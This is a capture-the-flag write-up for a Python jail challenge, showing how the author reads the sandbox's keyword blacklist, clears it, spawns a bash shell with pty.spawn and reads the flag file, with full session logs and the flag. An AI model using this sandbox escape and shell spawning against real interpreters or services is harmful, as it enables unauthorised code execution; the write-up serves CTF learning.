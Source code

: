 # "as" "df"

![](Pasted%20image%2020220605212940.png)
## Solution

Firstly I tried finding all the global variables using `dir()`, and there is an interesting variable named `blacklist` 

```python
(base) [hacker@hackerbook ~]$ nc fun.chall.seetf.sg 50002
Hello! Welcome to my amazing Python interpreter!
You can run anything you want, but take not, there's a few blacklists!
Flag is in the root directory, have fun!
Enter command: dir()
Enter command: print(dir())
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'sys', 'user_input']
Enter command: print(blacklist) 
('eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', ';', '+', 'ord', 'chr', 'base', 'flag', 'replace', ' ', 'decode', 'join')
Enter command: 
```

I thought, maybe if I cleared the variable, I could remove the blacklist entirely. This worked, as I could use the `import` keyword. I imported a library to spawn a bash shell and allow for Remote Code Execution.

```bash
(base) [hacker@hackerbook ~]$ nc fun.chall.seetf.sg 50002
Hello! Welcome to my amazing Python interpreter!
You can run anything you want, but take not, there's a few blacklists!
Flag is in the root directory, have fun!
Enter command: blacklist=()
Enter command: import pty; pty.spawn("/bin/bash")
random@app-8575d5795b-mqzr9:~$
```

I then used this bash shell to find the flag from the root directory, and display its contents using `cat`

```bash
random@app-8575d5795b-mqzr9:~$ cd /
cd /
random@app-8575d5795b-mqzr9:/$ ls
ls
bin   dev  flag  lib    media  opt   root  sbin  sys  usr
boot  etc  home  lib64  mnt    proc  run   srv   tmp  var
random@app-8575d5795b-mqzr9:/$ cat flag
cat flag
SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}
random@app-8575d5795b-mqzr9:/$ 
```

## Flag
`SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}`